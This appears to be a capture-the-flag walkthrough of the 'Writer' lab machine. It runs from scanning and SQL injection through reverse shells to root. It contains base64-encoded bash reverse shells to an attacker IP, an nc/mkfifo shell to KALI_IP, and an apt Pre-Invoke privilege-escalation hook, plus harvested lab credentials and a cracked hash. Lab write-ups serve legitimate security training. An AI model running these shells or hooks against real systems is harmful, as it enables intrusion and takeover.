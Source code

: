 #Masscan:
Discovered open port 80/tcp on 10.10.11.101                                    
Discovered open port 139/tcp on 10.10.11.101                                   
Discovered open port 445/tcp on 10.10.11.101                                   
Discovered open port 22/tcp on 10.10.11.101

#Simple nmap scan:

22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds


#Directory Bruteforcing:


ffuf -u http://10.10.11.101/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 1062 -c
	
	administrative          [Status: 200, Size: 1443, Words: 185, Lines: 35]

/var/www/writer.htb/writer/__init__.py

/etc/apache2/sites-enabled/000-default.conf

Testing Sqlmap
sqlmap -r res.txt --file-read=/etc/apache2/sites-enabled/000-default.conf

we get an admin panel: 
lets try injections sql.

02_Spawning_TTY_Shell/////Rev_Shell
use the jpg shell and boom! we have a shell! change <ip> and <port>



/var/www/writer2_project/writerv2/settings.py

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'OPTIONS': {
            'read_default_file': '/etc/mysql/my.cnf',

www-data@writer:/var/www/writer2_project/writerv2$ cat /etc/mysql/my.cnf

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8

First Upgrade Shell# 
python3 -c 'import pty;pty.spawn("/bin/bash")'

#connect to DB
mysql -u djangouser -P 3306 -p

select * from auth_user

pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=  | kyle   

hashcat -a0 -m 10000 kyle_hash  /usr/share/wordlists/rockyou.txt 

password:marcoantonio

kyle@writer:/home/john$ id 
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)

find / -group filter -type f 2>/dev/null
/etc/postfix/disclaimer

lets test smb
netstat -ant : port 25 smb
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN 

lets use NATBypass Found in /opt DID NOT WORK*


copy this rev shell. for #.sh

echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIxNi8xMzMzNyAwPiYxJwo= |base64 -d| bash

imiditly after use port25_sendMailLocal.py found in ~/Desktop/scripts to catch a rev shell on port 13337

once we have a shell go to /home/john and get his .ssh 
cp it over chmod 600 and now you can ssh -i john_id john@writer.htb

after checking the groups i noticed management

john@writer:~$ find / -group management  2>/dev/null
/etc/apt/apt.conf.d

looking at gtfo bins 

https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/

found an article to get root access with atp 3 ways apperatly. 

echo 'apt::Update::Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc KALI_IP 1234 >/tmp/f”};’ > pwn


echo 'apt::Update::Pre-Invoke {"echo <bash-cShell>| base64 -d | bash"};'> pwn

echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjE2LzEzMzM3IDA+JjEiCg== | base64 -d | bash"};'> test

bob@kali:~/Desktop/Ethical_Hacking/writer$ nc -nlvp 13337
listening on [any] 13337 ...
connect to [10.10.14.216] from (UNKNOWN) [10.10.11.101] 38440
bash: cannot set terminal process group (48065): Inappropriate ioctl for device
bash: no job control in this shell
root@writer:/tmp# 


boom!!!!

